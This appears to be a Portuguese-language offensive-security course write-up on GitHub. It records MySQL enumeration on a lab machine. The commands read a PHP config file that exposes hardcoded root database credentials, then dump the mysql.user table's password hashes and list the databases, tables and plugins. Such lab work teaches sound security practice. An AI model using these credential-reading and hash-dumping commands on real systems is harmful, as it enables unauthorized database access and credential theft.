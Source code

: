 # 🔍 Exploração do Site — 👨‍🔬 Penetratium ☢️ - 🧬 Team 📡

## 🔗 Materia Segurança Ofensiva 📕

- 👨‍🏫 **Professor:** JPGress
- 🔍 **Tipo:** Exploration mysql

---
# **🗄️ Comandos de Exploração do MySQL**

<img width="266" height="122" alt="image" src="https://github.com/user-attachments/assets/c2b6c4ae-a5a8-4011-a9be-b08bd4624268" />

- 2 pdf ja upado no sistema

## comando : mysql --version

```ruby
mysql  Ver 14.14 Distrib 5.5.50, for debian-linux-gnu (x86_64) using readline 6.3
```

## comando : cat /var/www/html/prog/db.php
```ruby
  <!--?php
  
      $lnk = @mysql_connect("localhost", "root", "dbhacklfi");
      $db = mysql_select_db('deseclfi', $lnk);
  
  ?--> 

```

## comando : mysql -u root -pdbhacklfi -e "use mysql; select user, host, password from user;"
```ruby
  user	host	password
  root	localhost	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	rh	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	127.0.0.1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	::1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  debian-sys-maint	localhost	*300DD417C72920F12EBD3A01236771655230AC5A
```

## comando : mysql -u root -pdbhacklfi -e "show databases;"

```ruby
  Database
  information_schema
  deseclfi
  mysql
  performance_schema
```

## comando : mysql -u root -pdbhacklfi -e "use deseclfi; show tables;"

```ruby
  Tables_in_deseclfi
  submissions
```
## comando: mysql -u root -pdbhacklfi -e "use mysql; show tables;"

```ruby
  Tables_in_mysql
  columns_priv
  db
  event
  func
  general_log
  help_category
  help_keyword
  help_relation
  help_topic
  host
  ndb_binlog_index
  plugin
  proc
  procs_priv
  proxies_priv
  servers
  slow_log
  tables_priv
  time_zone
  time_zone_leap_second
  time_zone_name
  time_zone_transition
  time_zone_transition_type
  user

```


## comando : cat /var/www/html/BANCO\ DE\ DADOS/bd.sql
```ruby
  -- MySQL dump 10.13  Distrib 5.1.63, for debian-linux-gnu (i486)
  --
  -- Host: localhost    Database: cfp
  -- ------------------------------------------------------
  -- Server version	5.1.63-0+squeeze1
  
  /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
  /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
  /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
  /*!40101 SET NAMES utf8 */;
  /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
  /*!40103 SET TIME_ZONE='+00:00' */;
  /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
  /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
  /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
  /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
  
  --
  -- Table structure for table `submissions`
  --
  
  DROP TABLE IF EXISTS `submissions`;
  /*!40101 SET @saved_cs_client     = @@character_set_client */;
  /*!40101 SET character_set_client = utf8 */;
  CREATE TABLE `submissions` (
    `id` mediumint(9) NOT NULL AUTO_INCREMENT,
    `email` varchar(150) DEFAULT NULL,
    `password` varchar(50) DEFAULT NULL,
    `title` varchar(150) DEFAULT NULL,
    `description` text,
    `bio` text,
    `filename` varchar(150) DEFAULT NULL,
    PRIMARY KEY (`id`)
  ) ENGINE=MyISAM DEFAULT CHARSET=latin1;
  /*!40101 SET character_set_client = @saved_cs_client */;
  
  --
  -- Dumping data for table `submissions`
  --
  
  LOCK TABLES `submissions` WRITE;
  /*!40000 ALTER TABLE `submissions` DISABLE KEYS */;
  /*!40000 ALTER TABLE `submissions` ENABLE KEYS */;
  UNLOCK TABLES;
  /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
  
  /*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
  /*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
  /*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
  /*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
  /*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
  /*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
  /*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
  
  -- Dump completed on 2017-01-09 23:37:44
```

**Vendo plugins** : mysql -u root -pdbhacklfi -e "SHOW PLUGINS"

```
Name	Status	Type	Library	License
binlog	ACTIVE	STORAGE ENGINE	NULL	GPL
mysql_native_password	ACTIVE	AUTHENTICATION	NULL	GPL
mysql_old_password	ACTIVE	AUTHENTICATION	NULL	GPL
MEMORY	ACTIVE	STORAGE ENGINE	NULL	GPL
CSV	ACTIVE	STORAGE ENGINE	NULL	GPL
MRG_MYISAM	ACTIVE	STORAGE ENGINE	NULL	GPL
MyISAM	ACTIVE	STORAGE ENGINE	NULL	GPL
FEDERATED	DISABLED	STORAGE ENGINE	NULL	GPL
InnoDB	ACTIVE	STORAGE ENGINE	NULL	GPL
INNODB_TRX	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_LOCKS	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_LOCK_WAITS	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMP	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMP_RESET	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMPMEM	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMPMEM_RESET	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_BUFFER_PAGE	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_BUFFER_PAGE_LRU	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_BUFFER_POOL_STATS	ACTIVE	INFORMATION SCHEMA	NULL	GPL
PERFORMANCE_SCHEMA	ACTIVE	STORAGE ENGINE	NULL	GPL
ARCHIVE	ACTIVE	STORAGE ENGINE	NULL	GPL
BLACKHOLE	ACTIVE	STORAGE ENGINE	NULL	GPL
partition	ACTIVE	STORAGE ENGINE	NULL	GPL
```
